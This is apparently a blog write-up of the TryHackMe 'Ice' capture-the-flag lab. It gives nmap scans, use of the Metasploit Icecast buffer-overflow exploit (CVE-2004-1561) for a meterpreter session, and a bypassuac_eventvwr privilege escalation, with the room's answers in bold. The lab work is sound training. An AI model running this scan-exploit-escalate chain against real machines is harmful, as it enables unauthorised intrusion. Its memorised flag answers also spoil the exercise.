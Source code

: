 ```yaml
---
layout: page
title: Ice
permalink: /Tutorials/TryHackMe/Ice/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)


Flags will be **BOLD**

First we connect our VPN

Now lets scan the subnet range

I did not want to deal with a giant list so I found a scan that worked for me that only shows IPs

"nmap -n -sn 10.10.39.0-255 -oG - | awk '/Up$/{print $2}'"
 -n does not do dns resolution, -sn disables port scanning, -oG makes the results grepable
 
 
 Now for the awk portion
"awk /Up$/ print $2}"
awk scans each line of text, /Up$/ selects only the lines ending with Up, and print $2 will print the IPs

my results were 10 IPs


"10.10.39.8
10.10.39.58
10.10.39.79
10.10.39.123
10.10.39.136
10.10.39.178
10.10.39.188
10.10.39.194
10.10.39.208
10.10.39.223"


Lets use a fast nmap scan (top 100 ports) 

"nmap -Pn -F 10.10.39.*"

8 only had a http and https port open and nothing else so that shouldnt be it

58/79/123/136/178/188 all showed no open ports during that scan

10.10.39.194 however had multiple!


<img src="/images/TryHackMe/Ice/Task2-3.PNG">


This looks promising!

Now the room recommended a SYN scan so lets try that as well

"sudo nmap -sS  10.10.39.194"


<img src="/images/TryHackMe/Ice/task 2-3.5.PNG">


The results are the same besides the extra unknown ports

We also see a flag!

for question 3 of Task 2 the answer is

**3389**

If you google RDP you will also findout this is the default port for it


For question 4 I had to use the hint and did another scan

"nmap -Pn -sV  10.10.39.194"

This had different results!


<img src="/images/TryHackMe/Ice/task 2-4.PNG">


**Icecast** is the correct answer for #4 in task 2

For #5 our previous scan shows it at the bottom

**DARK-PC**


For Task 3 we need to use

https://www.cvedetails.com/

Once there in the top right we can search "Icecast"

One of the entries is named

"CVE-2004-1561 : Buffer overflow in Icecast 2.0.1 and earlier allows..."

lets open it up!

We now have answers for #1 and #2

<img src="/images/TryHackMe/Ice/task 3-1.PNG">

**execute code overflow**


<img src="/images/TryHackMe/Ice/task 3-2.PNG">

**CVE-2004-1561**


Now it is time to go to Metasploit in our terminal!

"msfconsole"

and then search for Icecast
"search Icecast"

We Now have the answer to task 3 #4
<img src="/images/TryHackMe/Ice/task 3-4.PNG">


**exploit/windows/http/icecast_header**

Now we can choose it with "use 0"

lets use "show options" to see if we need to fix anything else

<img src="/images/TryHackMe/Ice/task 3-6.PNG">

We now have the answer to Task 3 #6!

**RHOSTS**

Now we need to set the RHOSTS to our ip with

"Set RHOSTS 10.10.39.194"

Don't forget the LHOST if applicable

"set LHOST tun0"

Lets run it and see what happens!

"exploit"

for me 3rd time was the charm! it failed 2 times until it worked

Time for Task 4!

And we already have a flag

<img src="/images/TryHackMe/Ice/task 4-1.PNG">

**meterpreter**

Lets use the hint to save us from doing another room

We need to use "getuid" to findout the last user
to find the Task 4 #2 flag

<img src="/images/TryHackMe/Ice/task 4-2.PNG">

**Dark**


Once again the hint is helpful!

"sysinfo" is all we need for #3

<img src="/images/TryHackMe/Ice/task 4-3.PNG">

**7601**

It kicked me out so I had to re run the exploit

"exploit" and it worked the first time!

The previous picture shows trhe answer to #4

**x64**

It then has a specific command it wants us to run

"run post/multi/recon/local_exploit_suggester"

5th times the charm! after having to restart the session

<img src="/images/TryHackMe/Ice/task 4-6.PNG">

**exploit/windows/local/bypassuac_eventvwr** is the answer to #6

we now need to background this sessions with "ctrl+z"

we now need to type "use exploit/windows/local/bypassuac_eventvwr"

lets check the options "options"

lets set the sessions "set session #"

We also need to change LHOST again

"set LHOST tun0"

It was at this point the connection died again...

after doing it all again lets type "run"


Once that finally works we can run "getprivs" to see permissions 








We have finally succeeded in the room!
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
